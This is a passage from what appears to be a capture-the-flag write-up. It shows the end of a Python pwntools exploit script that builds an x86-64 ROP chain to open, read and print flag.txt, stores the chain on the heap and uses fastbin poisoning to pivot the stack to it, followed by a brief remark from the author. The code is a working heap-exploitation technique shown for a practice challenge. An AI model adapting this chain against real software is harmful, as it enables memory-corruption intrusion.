 ```python
    chain += p64(pop_rdx) + p64(0)
    chain += p64(syscall_ret)

    chain += p64(pop_rax) + p64(0)
    chain += p64(pop_rdi) + p64(3)
    chain += p64(pop_rsi) + p64(flag_read_address)
    chain += p64(pop_rdx) + p64(64)
    chain += p64(syscall_ret)

    chain += p64(pop_rax) + p64(1)
    chain += p64(pop_rdi) + p64(1)
    chain += p64(pop_rsi) + p64(flag_read_address)
    chain += p64(pop_rdx) + p64(64)
    chain += p64(syscall_ret)


    # put rop chain and "flag.txt" on heap
    # addresses are calculated in advance bc it's predictable

    r.sendline(b"0 15 0")
    r.sendline(b"1 15 500")
    r.sendline(b" ".join([str(x).encode() for x in chain.ljust(500,b"\x00")]))

    r.sendline(b"0 14 0")
    r.sendline(b"1 14 500")
    r.sendline(b" ".join([str(x).encode() for x in b"flag.txt".ljust(500,b"\x00")]))

    for i in range(3):
        r.recvuntil(b"choice: \n")

    poison_fastbin(r, stack_ret, p64(pop_rsp) + p64(heap_rop_address) + p64(0))


    # good luck pwning :)

    r.interactive()


if __name__ == "__main__":
    main()
```

Neat challenge!  I'm still rather new to complex heap challenges so this fucked me up, but I had a good time working on it!  

